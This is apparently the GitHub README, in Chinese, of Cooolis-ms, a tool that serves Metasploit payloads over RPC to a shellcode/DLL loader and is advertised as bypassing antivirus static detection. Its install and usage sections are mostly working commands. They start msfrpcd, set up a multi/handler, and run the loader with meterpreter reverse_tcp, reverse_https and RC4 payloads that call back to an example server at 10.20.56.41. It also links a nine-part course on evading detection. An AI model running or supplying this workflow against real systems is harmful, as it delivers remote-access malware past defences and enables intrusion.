





# Cooolis-ms



Cooolis-ms 是一个支持Metasploit Framework RPC的一个服务端，用于给Shellcode和PE加载器工作，在一定程度上绕过反病毒软件的静态查杀，同时可以让Cooolis-ms服务端与Metasploit服务器进行分离。

加载器执行流程：

1. 连接Cooolis-Server
2. Cooolis-Server连接Metasploit RPC服务端
3. 取回Payload然后发送回加载器


核心技术：

- [静态恶意代码逃逸（第六课）](https://payloads.online/archivers/2020-01-02/1)


## 该项目的优点

- 体积小（<600KB）
- 支持Metasploit所有Payload
- 参数设置简单
- 单文件
- 架构分离

## 你可以参考这里，写出自己的好项目

- [静态恶意代码逃逸（第一课）](https://payloads.online/archivers/2019-11-10/1)
- [静态恶意代码逃逸（第二课）](https://payloads.online/archivers/2019-11-10/2)
- [静态恶意代码逃逸（第三课）](https://payloads.online/archivers/2019-11-10/3)
- [静态恶意代码逃逸（第四课）](https://payloads.online/archivers/2019-11-10/4)
- [静态恶意代码逃逸（第五课）](https://payloads.online/archivers/2019-11-10/5)
- [静态恶意代码逃逸（第六课）](https://payloads.online/archivers/2020-01-02/1)
- [静态恶意代码逃逸（第七课）](https://payloads.online/archivers/2020-10-23/1)
- [静态恶意代码逃逸（第八课）](https://payloads.online/archivers/2020-11-29/1)
- [静态恶意代码逃逸（第九课）](https://payloads.online/archivers/2020-11-29/2)

## 如何安装


### 选择一 > Docker部署（推荐）


Bilibili:

[](https://www.bilibili.com/video/BV1P54y1m7JF/ "China Bilibili")


```
$ git clone https://github.com/Rvn0xsy/Cooolis-ms.git
$ cd Cooolis-ms/Docker
$ docker-compose up -d
```

默认监听端口：8899

### 选择二 > 源码部署

```
$ git clone https://github.com/Rvn0xsy/Cooolis-ms.git
$ cd Cooolis-ms
$ pip3 install -r requirements.txt
$ python3 server.py -h
```

## 如何使用

**如果你使用了Docker进行部署，请直接从第三步开始。**

假设这是我的VPS： 10.20.56.41

### 第一步 启动Metasploit RPC服务端

**启动Metasploit RPC服务端：**

```
$ msfrpcd -U msf -P msf -u /api/1.0/ -a 127.0.0.1
```


### 第二步 启动Cooolis-ms服务端

使得它连接到RPC，并且监听一个端口，用来发送载荷：

```
$ python3 server.py -U msf -P msf -H 127.0.0.1 -p 55553 -s -v -l 8899 -S 10.20.56.41
```



### 第三步 配置Metasploit监听器


```
msf5 > use exploit/multi/handler
msf5 > set payload windows/meterpreter/reverse_tcp
msf5 > set LHOST  10.20.56.41
msf5 > set LPORT 8876
msf5 > exploit -j
```



### 第四步 启动Cooolis-ms客户端


```
Cooolis-ms.exe -p windows/meterpreter/reverse_tcp -o LHOST=10.20.56.41,LPORT=8876,Format=dll -H 10.20.56.41 -P 8899
```



Q&A : [是否支持RC4加密的Payload?](https://github.com/Rvn0xsy/Cooolis-ms/issues/6)

* windows/meterpreter/reverse_tcp_rc4：

```
Cooolis-ms.exe -p windows/meterpreter/reverse_tcp_rc4 -o LHOST=10.20.56.41,LPORT=8876,RC4PASSWORD=rc4_password,Format=dll -H 10.20.56.41 -P 8899
```

* windows/meterpreter_reverse_https

```
Cooolis-ms.exe -p windows/meterpreter_reverse_https -o LHOST=10.20.56.41,LPORT=8876,LURI=/api/,Format=dll -H 10.20.56.41 -P 8899
```

* windows/meterpreter/bind_tcp_rc4

```
Cooolis-ms.exe -p windows/meterpreter/bind_tcp_rc4 -o RHOST=10.20.56.11,LPORT=8876,LURI=/api/,Format=dll -H 10.20.56.41 -P 8899
```

* 其他... 自由发挥

**提示：**

1. `-o`参数后的值需要和msf的监听器配置一致。
2. 由于本项目依赖[MemoryModule](https://github.com/fancycode/MemoryModule)这个开源项目，因此只能支持DLL格式的PAYLOAD。需要在`-o`参数后添加`Format=dll`


## 关于其他

如果你觉得这个项目不错，请给我一个Star～


## issue

[我要提交建议或问题](https://github.com/Rvn0xsy/Cooolis-ms/issues)

## LICENSE

[GNU General Public License v3.0](https://github.com/Rvn0xsy/Cooolis-ms/blob/master/LICENSE)
